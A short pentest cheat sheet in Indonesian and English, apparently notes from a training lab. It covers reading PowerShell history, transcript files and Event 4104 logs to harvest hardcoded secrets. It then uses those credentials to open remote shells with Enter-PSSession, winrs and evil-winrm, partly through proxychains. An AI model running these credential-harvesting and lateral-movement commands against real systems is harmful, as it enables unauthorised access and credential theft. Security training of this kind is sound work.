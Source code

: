 ## Extracting Powershell History (.bash_history Windows), suka ada hardcoded secrets. PSReadline. #powershell logs

1. Cek Path file historynya
```cmd
Get-History 
(Get-PSReadlineOption).HistorySavePath
```
2. Liat isi dari path historynya, ex:
```cmd
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
3. Kalo ada command Start-Transcript di historynya, baca pathnya.
```cmd
Start-Transcript -Path "C:\Users\Public\Transcripts\transcript01.txt"
```
```cmd
type C:\Users\Public\Transcripts\transcript01.txt
```
4. Kalo dari GUI event viewer bisa gini (GUNA, KRN SUKA GK ADA kalo pake cara di atas)
```
Buka Event Viewer > Applications and Services Logs > Microsoft > Windows > PowerShell > Operational
```
Event 4104 is Powershell Script Block Logging

Di panel kanan ada "Filter Current Log" > Masukin Event ID 4104


## Powershell Remoting (kalo kali linux kita bisa akses mesinnya dan males proxychain).
```cmd
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```
or
```cmd
winrs -r:CLIENTWK220 -u:daveadmin -p:qwertqwertqwert123!! "cmd /c"
```
or
```cmd (kalo memang user kita ada akses ke komputernya)
$sess = New-PSSession -ComputerName dcorp-dc
Enter-PSSession $sess
```
or
```cmd
winrs -r:dcorp-dc cmd 
```
NOTE: KALO KALI LINUX KITA BISA AKSES ATAU POWERSHELL REMOTINGNYA ERROR, MENDING `evil-winrm` or `proxychains evil-winrm`

```cmd
evil-winrm -i 192.168.223.220 -u daveadmin -p 'qwertqwertqwert123!!'
proxychains evil-winrm -i 192.168.223.220 -u daveadmin -p 'qwertqwertqwert123!!' 
```
